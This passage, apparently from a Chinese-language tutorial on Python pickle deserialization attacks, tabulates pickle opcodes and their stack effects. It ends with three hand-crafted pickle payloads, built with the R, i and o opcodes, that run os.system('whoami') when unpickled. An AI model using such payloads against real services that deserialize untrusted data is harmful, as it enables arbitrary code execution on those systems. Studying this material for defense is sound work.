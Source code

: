 | R      | 选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数 | R                                                 | 函数和参数出栈，函数的返回值入栈                             | 无           |
| .      | 程序结束，栈顶的一个元素作为pickle.loads()的返回值           | .                                                 | 无                                                           | 无           |
| (      | 向栈中压入一个MARK标记                                       | (                                                 | MARK标记入栈                                                 | 无           |
| t      | 寻找栈中的上一个MARK，并组合之间的数据为元组                 | t                                                 | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| )      | 向栈中直接压入一个空元组                                     | )                                                 | 空元组入栈                                                   | 无           |
| l      | 寻找栈中的上一个MARK，并组合之间的数据为列表                 | l                                                 | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| ]      | 向栈中直接压入一个空列表                                     | ]                                                 | 空列表入栈                                                   | 无           |
| d      | 寻找栈中的上一个MARK，并组合之间的数据为字典（数据必须有偶数个，即呈key-value对） | d                                                 | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| }      | 向栈中直接压入一个空字典                                     | }                                                 | 空字典入栈                                                   | 无           |
| p      | 将栈顶对象储存至memo_n                                       | pn\n                                              | 无                                                           | 对象被储存   |
| g      | 将memo_n的对象压栈                                           | gn\n                                              | 对象被压栈                                                   | 无           |
| 0      | 丢弃栈顶对象                                                 | 0                                                 | 栈顶对象被丢弃                                               | 无           |
| b      | 使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置 | b                                                 | 栈上第一个元素出栈                                           | 无           |
| s      | 将栈的第一个和第二个对象作为key-value对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为key）中 | s                                                 | 第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新 | 无           |
| u      | 寻找栈中的上一个MARK，组合之间的数据（数据必须有偶数个，即呈key-value对）并全部添加或更新到该MARK之前的一个元素（必须为字典）中 | u                                                 | MARK标记以及被组合的数据出栈，字典被更新                     | 无           |
| a      | 将栈的第一个元素append到第二个元素(列表)中                   | a                                                 | 栈顶元素出栈，第二个元素（列表）被更新                       | 无           |
| e      | 寻找栈中的上一个MARK，组合之间的数据并extends到该MARK之前的一个元素（必须为列表）中 | e                                                 | MARK标记以及被组合的数据出栈，列表被更新                     | 无           |

此外， `TRUE`可以用 `I` 表示：`b'I01\n'` ； `FALSE`也可以用`I`表示：`b'I00\n'`
 与函数执行相关的opcode有三个： `R` 、 `i` 、 `o` ，所以我们可以从三个方向进行构造：

```python
# S
b'''cos
system
(S'whoami'
tR.'''
# i
b'''(S'whoami'
ios
system
.'''
# o
b'''(cos
system
S'whoami'
o.'''
```

###### pker
